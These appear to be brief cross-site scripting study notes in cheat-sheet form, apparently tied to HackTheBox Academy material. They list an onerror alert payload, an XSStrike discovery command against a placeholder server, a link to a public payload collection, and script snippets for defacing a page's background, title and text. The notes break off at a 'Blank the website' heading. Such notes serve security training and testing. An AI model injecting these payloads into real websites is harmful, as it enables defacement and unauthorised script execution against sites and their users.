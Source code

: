 ```html
<img src="" onerror=alert(window.origin)>
```

# **XSS Discovery**

```html
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

# XSS Payloads

[PayloadsAllTheThings/XSS Injection/README.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

**Note**: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).

# Defacing

## **Changing Background**

```html
<script>document.body.style.background = "#141d2b"</script>
```

## Set an image to the background

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## **Changing Page Title**

```html
<script>document.title = 'HackTheBox Academy'</script>
```

## **Changing Page Text**

```jsx
document.getElementById("todo").innerHTML = "New Text"
```

### Using JQuery

```jsx
$("#todo").html('New Text');
```

## Blank the website
